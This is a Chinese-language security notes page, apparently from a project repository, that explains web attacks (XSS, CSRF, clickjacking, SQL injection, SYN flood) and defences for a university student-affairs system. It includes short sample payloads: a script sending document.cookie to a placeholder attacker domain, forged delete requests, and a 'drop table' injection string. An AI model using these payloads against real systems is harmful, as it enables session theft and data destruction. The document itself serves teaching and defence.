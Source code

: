 #安全

##引言

互联网时代的数据安全与个人隐私受到前所未有的挑战，各种新奇的攻击技术层出不穷。安全问题分为两种，一种是正在运行的业务具有被破坏的风险，另一种是用户信息的泄露。我们握有用户的重要信息，务必要保证这些信息的安全。

安全是一个持续的过程。

## 同源策略与跨源资源共享

浏览器对于DOM、Cookie、XMLHttpRequest(Ajax)使用同源策略，但是script、img、iframe、link等标签均可以跨域获取资源。另外HTML 5可以实现XMLHttpRequest的跨域请求（CSP）。

##XSS攻击

实施方案

恶意js代码

<div><script>干了很多坏事</script></div>

1. 劫持并修改页面

通过劫持路由器等方案，修改页面并向其中加入恶意js代码。

2. 网站漏洞

例如写一篇包含恶意js代码的文字存入学工系统，之后所有浏览该段文字的用户，都会在浏览器中执行该段代码。

利用方式

1. 劫持cookie

恶意代码如下

var img = document.createElement("img");

img.src = "http://www.坏蛋.公司/log?" + escape(document.cookie);

document.body.appendChild(img);

这条请求会在远程服务器上留下一条带有cookie信息的记录。如果将Cookie设置为HttpOnly，可以防止被读取。

2. 在用户页面执行get或者post请求

例如我们只需要让学工管理员看待带有如下恶意代码的页面，即可删掉一篇帖子

var img = document.createElement("img");

img.src = "http://学工接口地址?m=delete&id=帖子的id"
document.body.appendChild(img);

类似的可以构造post请求。

3. XSS钓鱼

利用恶意js代码伪造一个登陆界面。

4. 识别用户浏览器、是否有ActiveX（可能会让用户机器中木马）等

5. 通过window.name对象在网页不同的tab间传递信息

## 跨站点请求访问

管理员在登录学工系统后，访问了另一个页面，其中包含一条连接。

`<img src="http://学工接口地址?m=delete&id=帖子的id" />`

则帖子被删除。

## 点击劫持

通过劫持路由器等方案，将一个层覆盖到原有的网页上。

## 注入攻击

var city = Reuqest.form("city");

var sql = "select * from order where ciry='" + city + "'";

此时，如果用户输入的是

beijing; drop table xxx;

则数据表被删除。

## 访问控制

有些访问没有进行权限控制，用户猜到URL即可看到内容。

## DDos

伪造大量的源IP地址，分别向服务器发送大量的SYN包，此时服务器收不到回应并等待一个SYN time，如果伪造的包数量非常多，则服务器会消耗过多的资源在这些连接上，无法服务于正常的用户。

## 盗链

## 业务安全

产品中使用了不正确的逻辑，例如只允许单点登录且只允许在客户端修改密码，则盗号者可以不停的登录，不给被盗者修改密码的机会。

## TSL/SSL

可以保证数据的完整性、机密性。EV SSL证书更佳。


## 法律法规

// TODO 高校相关产品是否有哪些信息可以披露的法律法规。

## 数据消密

## 安全规章

白名单机制、最小权限机制

1. 只开发用于服务的端口，不得使用如将SSH端口由22改为2222的方式来规避；

2. 所有服务器软件从Ubuntu内置源下载，不得使用第三方包；

3. 所有的输入都需要过滤，使用白名单策略，不应该包含<script>标签，更应该注意SQL过滤；

4. 部分输出应该过滤，将字符转为HtmlEncode和JavaScriptEncode;

`& --> &amp;`
